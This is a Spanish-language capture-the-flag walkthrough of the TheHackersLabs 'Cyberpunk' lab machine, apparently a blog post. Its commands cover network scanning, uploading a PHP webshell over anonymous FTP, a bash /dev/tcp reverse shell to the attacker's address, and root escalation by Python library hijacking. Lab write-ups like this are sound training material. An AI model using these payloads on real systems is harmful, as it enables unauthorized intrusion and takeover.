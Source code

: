 ```yaml
---
layout: post
title: "Cyberpunk"
date: 2024-06-10 14:05:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Cyberpunk </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/cyberpunk/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Cyberpunk/host.png){:.margin}

**1\.** Veo hosts activos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/Cyberpunk/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios corriendo en la maquina.

`sudo nmap -p- --open -T5 -n -Pn -sCV --min-rate 192.168.1.7`

![img](/notas/public/img/thehackerlabs/Cyberpunk/nmap.png){:.margin}

**3\.** En la web no hay nada mas que una imagen.

`http://192.168.1.7`

![img](/notas/public/img/thehackerlabs/Cyberpunk/80.png){:.margin}

**4\.** Ingreso por ftp como anonymous y veo tres recursos.

`ftp 192.168.1.7`

![img](/notas/public/img/thehackerlabs/Cyberpunk/ftp.png){:.margin}

**5\.** Analizando los recursos.

_5.1- En imagenes encuentro la imagen de la web_

`http://192.168.1.7/images`

![img](/notas/public/img/thehackerlabs/Cyberpunk/80images.png){:.margin}

_5.2- Aqui encuentro una nota_

`http://192.168.1.7/secret.txt`

![img](/notas/public/img/thehackerlabs/Cyberpunk/80secrettxt.png){:.margin}

**6\.** Subiendo un webshell por ftp.

`nano shell.php`

`<?php system($_GET['cmd']);?>`

`put shell.php`

![img](/notas/public/img/thehackerlabs/Cyberpunk/shell.png){:.margin}

**7\.** Obteniendo la conexion por reverse shell.

_7.1- Me pongo en escucha_

`sudo nc -nlvp 443`

![img](/notas/public/img/thehackerlabs/Cyberpunk/nc.png){:.margin}

_7.2- Envio la reverse shell_

`http://192.168.1.7/shell.php?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.1.13/443 0>%261"`

![img](/notas/public/img/thehackerlabs/Cyberpunk/reverseshell.png){:.margin}

_7.1- Recibo la conexion_

![img](/notas/public/img/thehackerlabs/Cyberpunk/ncok.png){:.margin}

**8\.** Encuentro un archivo con codigo brainfuck, lo interpreto con [dcodefr](https://www.dcode.fr/brainfuck-language).

`ls /opt`

`cat /opt/arasaka.txt`

![img](/notas/public/img/thehackerlabs/Cyberpunk/arasakatxt.png){:.margin}
![img](/notas/public/img/thehackerlabs/Cyberpunk/dcodefr.png){:.margin}

**9\.** Tengo usuario arasaka, accedo por ssh con la contraseña interpretada anteriormente.

`cat /etc/passwd | grep bash`

`ssh `

![img](/notas/public/img/thehackerlabs/Cyberpunk/catpasswd.png){:.margin}
![img](/notas/public/img/thehackerlabs/Cyberpunk/ssharasaka.png){:.margin}

**10\.** Revisando archivos.

_10.1- Encuentro python que puedo ejecutarlo como root con el binario python3.11_

`ls -l`

`sudo -l`

![img](/notas/public/img/thehackerlabs/Cyberpunk/sudol.png){:.margin}

_10.2- Veo que el script importa una libreria, pero no especifica la ruta de llamada_

`cat randombase64.py`

`sudo /usr/bin/python3.11 /home/arasaka/randombase64.py`

![img](/notas/public/img/thehackerlabs/Cyberpunk/catrandom.png){:.margin}

**11\.** Creo un script llamado base64 para hacer Python Library Hijacking(_suplantar un libreria_).

`echo -e "import os \nos.system('/bin/bash')" > base64.py`

`cat base64.py`

![img](/notas/public/img/thehackerlabs/Cyberpunk/base64py.png){:.margin}

**12\.** Escalando a root.

`sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py`

![img](/notas/public/img/thehackerlabs/Cyberpunk/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>